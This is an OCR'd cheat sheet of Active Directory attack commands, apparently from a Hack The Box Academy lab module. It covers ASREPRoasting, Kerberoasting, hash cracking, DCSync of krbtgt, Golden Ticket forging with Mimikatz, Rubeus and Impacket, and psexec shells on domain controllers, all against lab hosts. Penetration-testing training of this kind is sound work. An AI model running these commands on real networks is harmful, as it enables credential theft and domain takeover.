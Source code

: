 
##ASREPRoasting
| Command | Description |
|---------|-------------|
| `Get-DomainUser -PreauthNotRequired \| select samaccountname,userprincipalname,useraccountcontrol \| fl` | PowerView based tool used to search for the DONT_REQ_PREAUTH value across user accounts in a target Windows domain. Performed from a Windows-based host. |
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Uses Rubeus to perform an ASREPRoasting attack and formats the output for Hashcat. Performed from a Windows-based host. |
| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt` | Uses Hashcat to attempt to crack the captured hash using a wordlist (rockyou.txt). Performed from a Linux-based host. |
| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` | Enumerates users in a target Windows domain and automatically retrieves the AS for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |

##Trust Relationships - Child > Parent Trusts
| Command | Description |
|---------|-------------|
| `Import-Module activedirectory` | Used to import the Active Directory module. Performed from a Windows-based host. |
| `Get-ADTrust -Filter *` | PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView tool used to perform a domain trust mapping from a Windows-based host. |
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName` | PowerView tools used to enumerate users in a target child domain from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt` | Uses Mimikatz to obtain the KRBTGT account's NT Hash from a Windows-based host. |
| `Get-DomainSID` | PowerView tool used to get the SID for a target child domain from a Windows-based host. |
| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid` | PowerView tool used to obtain the Enterprise Admins group's SID from a Windows-based host. |
| `ls \\academy-ea-dc01.inlanefreight.local\c$` | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host. |
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses Mimikatz to create a Golden Ticket from a Windows-based host. |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` | Uses Rubeus to create a Golden Ticket from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm` | Uses Mimikatz to perform a DCSync attack from a Windows-based host. |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt` | Impacket tool used to perform a DCSync attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240` | Impacket tool used to perform a SID Brute forcing attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the SID of a target Windows domain and attach it to the Enterprise Admin group's RID from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a Golden Ticket from a Linux-based host. |
| `export KRB5CCNAME=hacker.ccache` | Used to set the KRB5CCNAME Environment Variable from a Linux-based host. |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |

##Trust Relationships - Cross-Forest
| Command | Description |
|---------|-------------|
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName` | PowerView tool used to enumerate accounts for associated SPNs from a Windows-based host. |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof` | PowerView tool used to enumerate the mssqlsvc account from a Windows-based host. |
| `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses Rubeus to perform a Kerberoasting Attack against a target Windows domain (/domain:FREIGHTLOGISTICS.local) from a Windows-based host. |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |